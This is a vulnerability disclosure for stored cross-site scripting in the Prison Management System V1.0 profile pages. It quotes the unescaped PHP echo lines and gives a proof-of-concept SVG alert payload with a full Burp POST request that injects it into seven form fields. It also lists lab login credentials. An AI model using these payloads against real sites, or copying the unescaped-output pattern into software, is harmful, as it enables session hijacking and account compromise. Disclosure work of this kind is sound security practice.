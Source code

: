 # Prison Management System
## XSS on `/Employee/edit-profile.php`

### Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/Account/Login.php
releaseme@gmail.com
escobar2012
```

### Affected Page:

```
/Employee/edit-profile.php、/Employee/profile.php
```

The parameter `txtfullname` 、`txtdob` 、`txtaddress`、`txtqualification`、`cmddept`、`cmdemployeetype`、`txtappointment`are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

```php
# /Employee/edit-profile.php

# txtfullname
150 <input type="text" size="77" name="txtfullname" value="<?php echo $row['fullname'];   ?>" class="form-control" required="">

# txtdob
168 <input type="text" size="77" name="txtdob" value="<?php echo $row['dob'];   ?>" class="form-control">

# txtaddress
173 <input type="text" size="77" name="txtaddress" value="<?php echo $row['address'];   ?>" class="form-control">

# txtqualification
177 <input type="text" size="77" name="txtqualification" value="<?php echo $row['qualification'];   ?>" class="form-control">

# cmddept
180 <select name="cmddept" id="cmddept" class="form-control" required="">
181 <option value="<?php echo $row['dept'];   ?>"><?php echo $row['dept'];   ?></option>
182 <option value="Security">Security</option>
183 <option value="Bursary">Bursary</option>
184 <option value="Student Affairs">Student Affairs</option>
185 <option value="Clinic">Clinic</option>
186 <option value="ICT">ICT</option>
187 <option value="Admin">Admin</option>
188 <option value="Science & Technology">Science & Technology</option>
189 <option value="Management Technolgy">Management Technolgy</option>
190 <option value="Engineering Technology">Engineering Technology</option>
191 </select>

# cmdemployeetype
195 <select name="cmdemployeetype" id="cmdemployeetype" class="form-control" required="">
196 <option value="<?php echo $row['employee_type'];   ?>"><?php echo $row['employee_type'];   ?></option>
197 <option value="Academic">Academic</option>
198 <option value="Non-Academic">Non-Academic</option>
199 </select>

# txtappointment
203 <input type="text" size="77" name="txtappointment" value="<?php echo $row['date_appointment'];   ?>" class="form-control">
```

```php
# /Employee/profile.php

# txtfullname
134 <strong>Fullname :</strong> <?php echo $rowaccess['fullname'];?> <br>

# txtdob
161 <strong>Date of Birth :</strong> <?php echo $rowaccess['dob'];?>  <br>

# txtaddress
184 <strong>Address :</strong> <?php echo $rowaccess['address'];?>  <br>

# txtqualification
192 <strong>Qualification :</strong> <?php echo $rowaccess['qualification'];?>  <br>

# cmddept
200 <strong>Department :</strong> <?php echo $rowaccess['dept'];?>  <br>

# cmdemployeetype
217 <strong>Employee Type :</strong> <?php echo $rowaccess['employee_type'];?>  <br>

# txtappointment
208 <strong>Date Appointment :</strong> <?php echo $rowaccess['date_appointment'];?>  <br>
```

### Proof of Concept:

Payload:

```
<svg/onload=alert``>
```

Burp Request:

```
POST /Employee/edit-profile.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 317
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/Employee/edit-profile.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=90379e534d51402f246c8b8c9ff11b59
Connection: close

txtfullname=<svg/onload=alert`1`>&cmdsex=less_10&txtphone=less_12&txtdob=<svg/onload=alert`2`>&txtaddress=<svg/onload=alert`3`>&txtqualification=<svg/onload=alert`4`>&cmddept=<svg/onload=alert`5`>&cmdemployeetype=<svg/onload=alert`6`>&txtappointment=<svg/onload=alert``>&txtbasic_salary=num&txtgross_pay=num&btnedit=1
```

### Screenshot

![image-20240505125258930](./screenshot/image-20240505125258930.png)

![image-20240505125406779](./screenshot/image-20240505125406779.png)

![image-20240505125352394](./screenshot/image-20240505125352394.png)

![image-20240505125439824](./screenshot/image-20240505125439824.png)

![image-20240505125453349](./screenshot/image-20240505125453349.png)

![image-20240505125237125](./screenshot/image-20240505125237125.png)

![image-20240505125511815](./screenshot/image-20240505125511815.png)
